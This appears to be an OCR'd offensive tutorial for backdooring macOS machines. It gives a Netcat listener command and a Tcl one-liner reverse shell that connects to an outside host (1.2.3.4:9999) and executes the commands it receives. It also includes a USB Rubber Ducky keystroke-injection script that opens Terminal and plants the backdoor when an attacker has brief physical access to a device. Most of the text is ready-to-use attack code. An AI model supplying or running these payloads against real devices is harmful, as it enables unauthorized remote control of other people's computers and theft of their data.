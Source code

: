 As mentioned, creating Netcat backdoors can be established with minimal characters, making it the ideal method for quickly getting remote access to a Mac desktop or laptop. However, if the MacBook or other macOS device suddenly goes to sleep, locks, or the Wi-Fi connection is lost while the attacker is issuing remote commands, the Netcat process may become frozen and fail to terminate; This ultimately leaves the attacker with no new way to remotely access the device.

Fortunately, Tclsh handles sudden disconnections gracefully and is already present in all macOS devices. If you're a macOS user, you can test this by opening a Terminal and typing tclsh. You'll find that ls and ifconfig function as expected.

Start a Netcat Listener:

	nc -l -p 9999 (on mac)

Execute the Tclsh Command:

	echo 'set s [socket 1.2.3.4 9999];while 42 { puts -nonewline $s "hacker> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh &

Rubber Ducky Payloads: (optional)

Let's focus on using a USB Rubber Ducky to execute the command where a few seconds of physical access is possible. Below is an example payload.

Rubber Ducky Script:

	DELAY 1500
	GUI SPACE
	DELAY 350
	STRING terminal
	DELAY 100
	ENTER
	DELAY 1000
	STRING echo 'set s [socket 1.2.3.4 9999];while 42 { puts -nonewline $s "hacker> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh &
	ENTER
GUI q